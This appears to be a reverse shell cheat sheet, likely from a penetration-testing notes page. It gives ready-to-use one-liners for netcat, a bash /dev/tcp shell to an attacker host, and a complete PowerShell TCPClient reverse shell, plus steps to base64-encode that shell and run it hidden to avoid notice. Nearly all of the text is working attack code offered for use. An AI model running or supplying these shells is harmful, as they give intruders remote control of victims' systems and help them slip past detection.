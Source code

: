 * Necat: 
```
# Linux
nc <IP> <PORT> -e /bin/bash

# Windows
nc.exe <IP> <PORT> -e cmd.exe

```

## Bash

`bash -i >& /dev/tcp/ATTACKER-IP/ATTACKER-PORT 0>&1`

this one works everywhere `exec 5<>/dev/tcp/10.10.14.151/443;cat <&5 | while read line; do $line 2>&5 >&5; done`

## Powershell

### Encoded Powershell Execution

1. Create `shell_raw.ps1` with following contents

```powershell
#replace <IP_ATTACKER> with target ip, so it is going to look something like this: TCPClient('10.231.12.44',443)

# rev.ps1
$client = New-Object System.Net.Sockets.TCPClient('<IP_ATTACKER>',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PSReverseShell# ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}$client.Close();

```

2. Encode contents of  `shell_raw.ps1`

```powershell
# using powershell 
$expression     = Get-Content -Path .\shell_raw.ps1
$commandBytes   = [System.Text.Encoding]::Unicode.GetBytes($expression)
$encodedCommand = [Convert]::ToBase64String($commandBytes)
echo $encodedCommand
$filePath = "encoded.ps1"

$encodedCommand | Out-File -FilePath $filePath  -Encoding ASCII


# or using python

import sys
import base64

with open(sys.argv[1], 'r') as file:
    payload = file.read()

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)
```
3. Execute with powershell the output of $encodedCommand
